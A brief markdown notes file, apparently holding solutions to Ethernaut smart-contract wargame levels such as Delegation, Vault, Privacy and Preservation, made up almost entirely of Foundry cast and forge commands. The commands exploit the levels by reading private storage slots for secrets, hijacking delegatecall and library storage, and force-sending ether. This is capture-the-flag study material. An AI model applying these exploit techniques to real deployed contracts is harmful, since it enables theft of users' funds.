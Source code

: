 # Ethernaut

## Delegation

```bash
$ cast send <INSTANCE_CONTRACT> "pwn()"
```

## Forge

```bash
# Deploy
$ forge create ForceAttacker --constructor-args <INSTANCE_CONTRACT>

# Attack
$ cast send --value 0.01ether <ATTACKER_CONTRACT>
```

## Vault

```bash
$ PASSWORD=$(cast storage 0x19750Da423914182425B8F16E00A9ADDc6fd493d 1)
$ cast send <INSTANCE_CONTRACT> "unlock(bytes32)" "$PASSWORD"
```

## Privacy

```bash
$ KEY=$(cast storage 0x83B62e11B1ebD2b8a65c4Ff55E61d5201C46a07F 5)
$ cast send <ATTACKER_CONTRACT> "attack(address,bytes32)" <INSTANCE_CONTRACT> "$KEY"
```

## Preservation

```bash
$ cast send <INSTANCE_CONTRACT> "setFirstTime(uint)" <ATTACKER_CONTRACT>
$ cast send <INSTANCE_CONTRACT> "setFirstTime(uint)" 0
```

## Recovery

```bash
$ cast send <TOKEN_ADDRESS> "destroy(address)" <MY_ADDRESS>
$
```
